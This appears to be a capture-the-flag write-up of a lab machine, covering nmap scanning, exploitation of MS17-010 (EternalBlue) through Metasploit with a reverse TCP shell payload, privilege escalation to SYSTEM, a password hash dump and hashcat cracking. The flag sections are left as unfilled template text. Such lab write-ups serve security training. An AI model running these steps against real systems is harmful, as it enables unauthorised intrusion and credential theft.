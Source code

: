 ![image](https://user-images.githubusercontent.com/66912443/186679481-0d9ba8eb-bdcb-4683-943a-79614aa60bb9.png)

____________________________________________________________________________________________________________________ 

## Recon

<details>
<summary> How many ports are open with a port number under 1000? </summary>
  <p></p>

____________________________________________________________________________________________________________________  
  
As we are specifying only ports under 1000 we use the following command:
  
``` nmap [ip] -p 0-1000 ```

As seen below, running this command exposes 3 open ports:
  
![image](https://user-images.githubusercontent.com/66912443/186659494-ca27127c-ef59-4279-8c78-4a66e22f1cd9.png)

____________________________________________________________________________________________________________________  
  
</details>

<details>
<summary> What is this machine vulnerable to? </summary>
<p></p>

____________________________________________________________________________________________________________________ 

The script "vuln" is a CVE detection script that helps discover vulnerabilities in the scanned network. It can be activated with the following command:
  
``` nmap [ip] --script vuln ```
  
As seen below it has identified the machine is vulnerable to "ms17-010"
  
![image](https://user-images.githubusercontent.com/66912443/186661668-94728fae-8558-4642-81a8-3cb717ee4798.png)

____________________________________________________________________________________________________________________  
</details>

## Gain Access

<details>
<summary> Find the exploitation code we will run against the machine. What is the full path of the code? </summary>
  <p></p>
  
____________________________________________________________________________________________________________________ 
  
Rapid7 is a great tool for finding vulnerabilities and their uses along with sometimes instructions on how to complete the exploit yourself. Using rapid7.com's Vulnerability and Exploit Database, this vulnerability can be seen in more detail:
  
``` https://www.rapid7.com/db/modules/exploit/windows/smb/ms17_010_eternalblue/ ```
  
Talking about instructions on how to complete the exploit yourself, at the bottom of the page the first line of code identifies the exploitation code needed to run against the machine!
  
![image](https://user-images.githubusercontent.com/66912443/186663495-0312c1af-22e4-4549-bfbf-563dda2f2670.png)

____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Show options and set the one required value. What is the name of this value? </summary>
  <p></p>

____________________________________________________________________________________________________________________   
``` RHOSTS ``` is the one required value. This is because RHOSTS determines the ip address of the target.

____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> With that done, run the exploit! </summary>
 
____________________________________________________________________________________________________________________ 

Before running the exploit, make sure to run the following command as by default it will load meterpreter and a follow up question requires converting shell to meterpreter shell.
  
``` set payload windows/x64/shell/reverse_tcp ```
  
Then simply type 'run' and let metaspolit do its thing! If done correctly you will be presented with something similar to the following:
  
![image](https://user-images.githubusercontent.com/66912443/186665440-c9ede66d-7bc3-4245-b47e-a56ceec67727.png)

  
____________________________________________________________________________________________________________________ 

</details>

## Escalate

<details>
<summary> Research online how to convert a shell to meterpreter shell in metasploit. What is the name of the post module we will use? </summary>
  
____________________________________________________________________________________________________________________

Thanks to a post by 'Binamra Pandey' I have learnt the command to convert a shell is as follows: 
   
``` post/multi/manage/shell_to_meterpreter ```
  
<p></p>
  
Source = https://infosecwriteups.com/metasploit-upgrade-normal-shell-to-meterpreter-shell-2f09be895646  
____________________________________________________________________________________________________________________  
</details>

<details>
<summary> Select this (use MODULE_PATH). Show options, what option are we required to change? </summary>
  
____________________________________________________________________________________________________________________ 

``` SESSION ``` is the required option as we need to know which session (that has been backgrounded) to run this exploit on. In my example 'session 2' was backgrounded. 
  
To list all sessions use ``` sessions -l ```
  
![image](https://user-images.githubusercontent.com/66912443/186669104-9eca0c90-a0e7-453b-953b-3fc117fda793.png)


____________________________________________________________________________________________________________________   
  
</details>

<details>
<summary> Run! If this doesn't work, try completing the exploit from the previous task once more. </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  Running the exploit should lead you to see similar to this below. As seen in the text it says 'Meterpreter session 3 opened'. So the next step would be to navigate to it using the command:
<p></p>  
  
``` sessions 3 ```

  <p></p>  
  
![image](https://user-images.githubusercontent.com/66912443/186669699-49fc84fc-7b7a-49bf-b5e7-6d29bfba8a0b.png)
  
  ____________________________________________________________________________________________________________________ 

</details>

<details>
<summary> Verify that we have escalated to NT AUTHORITY\SYSTEM. Run getsystem to confirm this. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  Running 'getsytem':
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186670379-144fb6db-c4a8-48e7-8121-2c1bb294e465.png)
  
  Opening a dos shell and running whoami:
  
  ![image](https://user-images.githubusercontent.com/66912443/186670738-df061830-ee4b-4a00-a779-2d34e8402ddd.png)

____________________________________________________________________________________________________________________ 
  
</details>

<details>
<summary> List all of the processes running via the 'ps' command. Find a process towards the bottom of this list that is running at NT AUTHORITY\SYSTEM and write down the process id </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
  As seen in the cropped screenshot below, powershell.exe as well as many others are running at 'NT AUTHORITY/SYSTEM'. For simplicities sake I will stick with powershell, process ID 3056.
  <p></p>
  
![image](https://user-images.githubusercontent.com/66912443/186671522-82c4c813-c4f0-492d-a3d6-346b435e3657.png)
____________________________________________________________________________________________________________________   

</details>

<details>
<summary> Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. </summary>

____________________________________________________________________________________________________________________ 
  
  <p></p>
This is as simple as the following command:
  
```migrate 3056 ```
  
This is useful as now we are running on a process that has system authority!
  
![image](https://user-images.githubusercontent.com/66912443/186671912-1726b9c4-7c78-41c4-934b-3772421e6a6b.png)

____________________________________________________________________________________________________________________   

</details>

## Cracking

<details>
<summary> Within our elevated meterpreter shell, run the command 'hashdump'. What is the name of the non-default user? </summary>

____________________________________________________________________________________________________________________ 

  <p></p>
  The name of the non-default user is <i> jon </i>
  <p></p>
  
  ![image](https://user-images.githubusercontent.com/66912443/186672534-d803dffa-6966-49a6-8fff-7cb3614836bf.png)

____________________________________________________________________________________________________________________   
</details>

<details>
<summary> Copy this password hash to a file and research how to crack it. What is the cracked password? </summary>

  ____________________________________________________________________________________________________________________ 
  
  <p></p>
  This is the hashdump we will be working with:
  <p></p>
  
``` Jon:1000:aad3b435b51404eeaad3b435b51404ee:ffb43f0de35be4d9917ac0cc8ad57f8d::: ```

Windows uses NTLM to authenticate a client on an Active-Directory domain. When it comes to cracking the passwords this is what we will need to select in hashcat. Looking at hashcat's hash mode table we know that NTLM uses hash mode 1000:
  
![image](https://user-images.githubusercontent.com/66912443/186678368-1512a206-2470-4e42-a1f9-22d083e375ae.png)

  
To make the hash easier to work with, I have first copied the hash and put it into a file called 'hash.txt' in the root directory.
  
![image](https://user-images.githubusercontent.com/66912443/186675515-4466972d-a3f0-401f-8c8f-e940ce9b1f96.png)

Next, we will use hashcat to crack the hashes, this includes the hash mode type talked about above:
  
``` hashcat -m 1000 hash.txt /usr/share/wordlists/rockyou.txt ```
  
After letting it run long enough you will have your cracked hash!
  
![image](https://user-images.githubusercontent.com/66912443/186678699-75c0b403-b9b2-477e-9c0f-f43e03e4925c.png)

____________________________________________________________________________________________________________________ 

</details>

## Find Flags!

<details>
<summary> Flag1? This flag can be found at the system root. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> Flag2? This flag can be found at the location where passwords are stored within Windows. </summary>

Any folded content here. It requires an empty line just above it.

</details>

<details>
<summary> flag3? This flag can be found in an excellent location to loot. After all, Administrators usually have pretty interesting things saved. </summary>

Any folded content here. It requires an empty line just above it.

</details>


